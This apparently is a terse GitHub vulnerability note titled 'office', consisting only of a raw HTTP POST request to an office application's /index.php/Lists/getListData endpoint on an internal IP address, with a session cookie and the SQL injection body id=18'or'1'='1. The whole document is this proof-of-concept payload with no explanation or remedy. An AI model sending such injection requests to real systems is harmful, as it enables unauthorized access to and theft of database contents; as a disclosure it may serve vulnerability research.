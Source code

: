 # office
office work
POST /index.php/Lists/getListData HTTP/1.1
Host: 10.238.132.84
Content-Length: 14
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.238.132.84
Referer: http://10.238.132.84/index.php/Lists/index_type/2/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=hb9fgfeiocapkvqo1pbv0oplbp97pqcb
Connection: close

id=18'or'1'='1	
